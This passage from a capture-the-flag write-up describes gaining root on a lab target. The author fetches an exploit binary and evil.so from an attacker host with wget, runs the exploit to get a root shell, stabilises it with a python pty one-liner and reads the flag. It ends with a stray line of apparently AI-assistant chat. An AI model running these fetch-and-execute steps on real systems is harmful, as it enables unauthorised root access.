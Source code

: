 From my shell on the target (`red@red`), I pulled the files into `/tmp` using `wget`:

```bash
wget <http://10.201.16.159:9000/exploit> -O exploit
wget <http://10.201.16.159:9000/evil.so> -O evil.so
```

Initially I got a `Permission denied` when trying to run `./exploit`, so I corrected it:

```bash
chmod +x exploit
```

Now the binary was executable.

---

### Executing the Exploit

Running the exploit:

```bash
./exploit
```

spawned a root shell. I confirmed this by checking my effective user:

```
# whoami
root
```

At this point, I had full root privileges on the target.

---

### Retrieving the Flag

After upgrading my shell with Python’s pty module for stability:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

I navigated to the root directory, listed its contents, and found the flag:

```bash
cd /root
ls
cat flag3
```

Flag obtained:

```
THM{Go0d_Gam3_Blu3_GG}
```

Got it — here’s the updated full write-up section with that detail included. I’ve slotted it naturally into the **Preparing the Exploit** part so it flows with the rest of your notes:

---
